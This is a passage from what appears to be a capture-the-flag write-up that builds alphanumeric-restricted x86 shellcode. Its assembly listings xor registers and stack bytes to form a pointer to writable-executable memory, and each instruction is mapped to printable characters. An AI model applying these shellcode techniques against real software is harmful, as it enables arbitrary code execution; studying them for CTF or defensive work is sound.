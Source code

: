 Next we will clear out the `eax` register, by xoring it with the value pointed to by `esi+0x23` (which is `O`). Since then the value of eax will be zero, we will write `2` to it by xoring it by `0x41`, then `0x43` since `0x41 ^ 0x43 = 0x2`: 

```
; A3 F#6 A4 A6 A4 C6 A (Last A is borrowed from next step)
inc    ecx ; A
xor    eax, DWORD PTR [esi+0x23] ; 3F#
ss inc ecx ; 6A
xor    al,0x41 ;  4A
ss inc ecx ; 6A
xor    al,0x43 ; 4C
ss inc ecx ; 6A
```

Next we will xor the first, third, and fourth bytes of the `0x62626262` value with that of `0x2` (stored in the `eax` register). This will leave us with `0x60606260`:

```
; 0 G0 A0 G2 A0 G3
xor    BYTE PTR [edi+0x30], al ; 0G0
inc    ecx ; A
xor    BYTE PTR [edi+0x32], al ; 0G2
inc    ecx ; A
xor    BYTE PTR [edi+0x33], al ; 0G3
```

Next we will write the value `3` into the eax register, and xor it with second byte of the `0x60606260` stack value, leaving us with `0x60606160`:

```
; A4 B4 C6 A0 G1
inc    ecx ; A
xor    al, 0x42 ; 4B
xor    al, 0x43 ; 4C
ss     inc ecx ; 6A
xor    BYTE PTR [edi+0x31], al ; 0G1
```

Next we will clear out `eax` register by xoring it with `0x41` then `0x42` since `0x3 ^ 0x41 = 0x42` and `0x42 ^ 0x42 = 0x0`:

```
; A4 A4 B6 A3 (3 is used in next step)
inc    ecx ; A
xor    al, 0x41 ; 4A
xor    al, 0x42 ; 4B
ss     inc ecx ; 6A
```

Now we will move the rwx pointer we've been making (`0x60606160`) into the `eax` register. After that we will start clearing out the `edi` register by xoring it with the opcodes stored in `0x60606160`, which are `0x41364136`:

```
; 3 G0 A#8 
xor    eax, DWORD PTR [edi+0x30] ; 3G0
inc    ecx ; A
and    edi, DWORD PTR [eax] ; #8
```
